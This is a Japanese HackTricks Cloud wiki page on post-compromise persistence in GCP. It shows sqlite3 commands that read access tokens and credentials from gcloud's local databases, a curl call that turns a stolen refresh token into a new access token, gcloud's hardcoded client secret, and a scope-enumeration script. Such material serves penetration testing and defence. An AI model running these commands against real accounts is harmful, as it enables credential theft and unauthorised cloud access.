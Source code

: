 # GCP - 非サービス持続性

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

これらは、何らかの方法でGCPの資格情報やGCP環境で実行されているマシンを侵害した場合に役立つ技術です。

## トークンハイジャック

### 認証されたユーザートークン

ユーザーの**現在のトークン**を取得するには、次のコマンドを実行できます：

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

このページで**gcloudを使用してこのトークンを直接使用する方法**を確認してください：

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**新しいアクセストークンを生成する**ための詳細を取得するには、次のコマンドを実行します：

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

**`$HOME/.config/gcloud/application_default_credentials.json`** および **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** にリフレッシュトークンが見つかることもあります。

**リフレッシュトークン**、クライアントID、およびクライアントシークレットを使用して新しいアクセストークンを取得するには、次のコマンドを実行します：

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

リフレッシュトークンの有効性は **Admin** > **Security** > **Google Cloud session control** で管理でき、デフォルトでは16時間に設定されていますが、期限が切れないように設定することもできます：

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### 認証フロー

`gcloud auth login` のようなものを使用する際の認証フローは、ブラウザにプロンプトを開き、すべてのスコープを受け入れた後、ブラウザはツールによって開かれたHTTPポートにこのようなリクエストを送信します：
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
その後、gcloudは状態とコードを使用して、いくつかのハードコーディングされた `client_id` (`32555940559.apps.googleusercontent.com`) と **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) を使って **最終的なリフレッシュトークンデータ** を取得します。

{% hint style="danger" %}
ローカルホストとの通信はHTTPで行われるため、リフレッシュトークンを取得するためにデータを傍受することが可能ですが、このデータは1回だけ有効であるため、無駄になります。ファイルからリフレッシュトークンを読む方が簡単です。
{% endhint %}

### OAuthスコープ

すべてのGoogleスコープは [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) で見つけることができます。または、次のコマンドを実行して取得できます：

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

このスクリプトを使用すると、**`gcloud`** が認証に使用するアプリケーションがサポートできるスコープを確認できます:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
実行後、このアプリがこれらのスコープをサポートしていることが確認されました：
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
興味深いのは、このアプリが**`drive`**スコープをサポートしていることで、攻撃者がユーザーにこのスコープでトークンを生成させることに成功すれば、GCPからWorkspaceにエスカレートできる可能性があることです。

**この方法を** [**ここで悪用する方法を確認してください**](../gcp-to-workspace-pivoting/#abusing-gcloud)**。**

### サービスアカウント

認証されたユーザーと同様に、サービスアカウントの**プライベートキーのファイルを侵害することができれば、通常は好きなだけ**アクセスできるようになります。\
しかし、サービスアカウントの**OAuthトークンを盗むことができれば、さらに興味深いことになります。デフォルトではこれらのトークンは通常1時間だけ有効ですが、**もし**被害者がプライベートAPIキーを削除しても、OAuthトークンは期限が切れるまで有効です**。

### メタデータ

明らかに、GCP環境で実行されているマシン内にいる限り、**メタデータエンドポイントに連絡することで、そのマシンに添付されたサービスアカウントにアクセスできる**でしょう（このエンドポイントでアクセスできるOAuthトークンは通常スコープによって制限されていることに注意してください）。

### 修正策

これらの技術に対するいくつかの修正策は、[https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)で説明されています。

## 参考文献

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
